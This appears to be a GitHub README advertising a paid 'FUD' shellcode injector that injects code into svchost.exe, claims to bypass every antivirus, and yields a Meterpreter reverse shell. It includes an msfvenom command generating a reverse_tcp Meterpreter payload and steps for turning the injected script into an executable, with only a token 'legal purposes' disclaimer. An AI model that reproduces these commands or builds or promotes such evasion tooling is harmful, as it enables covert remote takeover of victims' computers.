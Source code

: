 # Shellcode-Injector
[FUD] Injects Shellcode in Process (even metersploit payloads fud)


FUD x64 Shellcode injector which injects the shellcode to svchost.exe and makes even a meterpreter fud.

Example:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=... LPORT=... -f python 

You put the Shellcode in the script execute the main.py and compile the printed output to a exe, if this script gets executed it bypasses every antivirus and gives you a normal meterpreter shell.

Get it: Blackclone24@proton.me 

Only for Legal Purposes!!!

I am not responsible for any malicious actions...



